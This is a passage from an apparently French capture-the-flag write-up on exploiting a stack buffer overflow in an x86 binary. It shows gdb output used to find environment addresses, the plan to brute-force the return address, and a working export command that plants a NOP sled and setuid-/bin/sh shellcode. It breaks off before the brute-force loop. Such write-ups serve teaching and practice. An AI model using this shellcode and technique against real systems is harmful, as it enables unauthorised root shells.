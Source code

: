 Je place un breakpoint sur l'instruction *ret* et j'exécute le programme avec 176 fois la lettre *A*. Ma pile débute bien avec le buffer attendu, prêt à écraser l'adresse de retour.  

Malheureusement l'état des autres registres rend impossible l'utilisation d'un gadget (on ne peut pas par exemple réutiliser une instruction qui saute vers l'adresse contenue dans EAX).  

Mais si on est sur du x86 c'est sans doute pour une bonne raison. L'espace d’adressage étant réduit on peut bruteforcer l'adresse de retour jusqu'à ce quelle pointe correctement sur notre payload.  

J'utilise la technique old-school consistant à mettre un shellcode avec un énorme nopsled dans l'environnement.  

Je débogue le binaire histoire d'avoir une idée des adresses correspondant aux variables d'environnement :  

```plain
(gdb) x/wx $ebp+8 
0xbfa26950:     0x00000002 
(gdb)  
0xbfa26954:     0xbfa269e4 
(gdb)  
0xbfa26958:     0xbfa269f0 
(gdb)  
0xbfa2695c:     0xb7701e9a

(gdb) x/wx 0xbfa269e4 
0xbfa269e4:     0xbfa27e2c
(gdb) x/s 0xbfa27e2c 
0xbfa27e2c:     "/home/clapton/input" 
(gdb)  
0xbfa27e40:     'a' <repeats 175 times>

(gdb) x/wx 0xbfa269f0 
0xbfa269f0:     0xbfa27ef0 
(gdb) x/s 0xbfa27ef0 
0xbfa27ef0:     "TERM=xterm-256color"
```

A $ebp+8 au début de la fonction on trouve argc (sa valeur est 2) puis le tableau vers des strings argv. Ensuite se trouve envp qui est le tableau vers les chaines d'environement.  

J'ai ensuite relancé l'analyse après avoir exporté dans l'environnement une valeur de 5000 caractères. J'ai calculé que le milieu de cette variable était à l'adresse 0xbfa69521, je vais donc m'en servir comme hypothétique adresse de retour.  

J'ai trouvé [un shellcode classique](https://www.exploit-db.com/shellcodes/49855) pour appeler setuid et exécuter */bin/sh*.  

Je l'injecte dans l'environnement avec son nopsled :  

```bash
export SHELLCODE=`python -c "print '\x90' * 5000 + '\x31\xc0\xb0\x46\x31\xdb\x31\xc9\x99\xcd\x80\x96\xb0\x0b\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'"
```

Finalement j'écris un petit code pour lancer en boucle le binaire jusqu'à ce que l'adresse de retour pointe vers notre shellcode :  
